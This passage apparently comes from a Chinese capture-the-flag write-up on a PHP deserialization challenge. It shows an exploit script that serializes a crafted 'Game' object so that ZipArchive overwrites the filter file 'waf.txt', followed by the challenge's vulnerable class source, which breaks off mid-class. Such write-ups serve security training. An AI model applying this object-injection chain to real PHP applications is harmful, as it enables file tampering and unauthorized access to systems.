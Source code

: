```bash
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
$a=new Game();
$a->username='admin';
$a->password='admin';
$a->register='admin';
$a->file=new ZipArchive();
$a->filename='waf.txt';
$a->content=8;//或者 ZipArchive::OVERWRITE
echo base64_encode(serialize($a));
```

之后构造链子绕过正则即可得到 flag

```bash
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;

    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){   //admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
```